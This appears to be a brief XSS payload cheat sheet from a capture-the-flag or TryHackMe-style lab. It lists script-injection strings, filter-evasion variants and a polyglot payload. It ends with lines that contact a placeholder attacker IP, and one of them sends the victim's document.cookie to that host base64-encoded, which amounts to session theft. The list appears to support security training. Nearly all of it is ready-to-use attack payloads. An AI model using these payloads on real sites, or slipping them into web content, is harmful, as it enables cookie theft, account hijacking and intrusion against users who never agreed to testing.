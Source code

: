 
test for blind XSS: https://github.com/mandatoryprogrammer/xsshunter-express

## payloads

- <script>alert('THM');</script>
- "><script>alert('THM');</script>
- </textarea><script>alert('THM');</script>
- ';alert('THM');// 
- <sscriptcript>alert('THM');</sscriptcript>
- /images/cat.jpg" onload="alert('THM');

### Polyglot: 
- jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e


</textarea><img src="http://{IP_ADDRESS}:9000" />

</textarea><script>fetch('http://{IP_ADDRESS}:9000')</script>

</textarea><script>fetch('http://{IP_ADDRESS}:9001?cookie=' + btoa(document.cookie) );</script>

